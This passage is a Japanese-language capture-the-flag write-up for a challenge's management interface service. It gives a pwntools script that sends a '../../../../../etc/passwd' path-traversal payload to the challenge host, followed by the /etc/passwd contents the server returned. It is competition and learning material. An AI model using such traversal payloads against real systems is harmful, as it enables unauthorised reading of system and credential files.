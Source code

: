 # Version 0.3
 - Rollback of version 0.2 because of random reasons
 - Blah Blah
 - Fix random reboots at 2:32 every second Friday when it's new-moon.
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

```

試しに接続して色々やってみると、どうやら2でflagの場所を入力するみたいです<br>
毎回接続するのはめんどくさいのでpythonでプログラムを作って実行します。<br>

何回か接続を試しながら作ったものです.

```
#! /usr/bin/env python2                                                                                 

from pwn import *

host = 'mngmnt-iface.ctfcompetition.com'
port = 1337

s = remote(host,port)
s.recv()
s.recv()
s.sendline("2")
s.recv()
s.recv()
s.sendline("../../../../../etc/passwd")
print s.recv()
print s.recv()
s.close()
```


実行すると<br>

```
net40-dhcp107:script yotti$ ./admin1.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/
usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false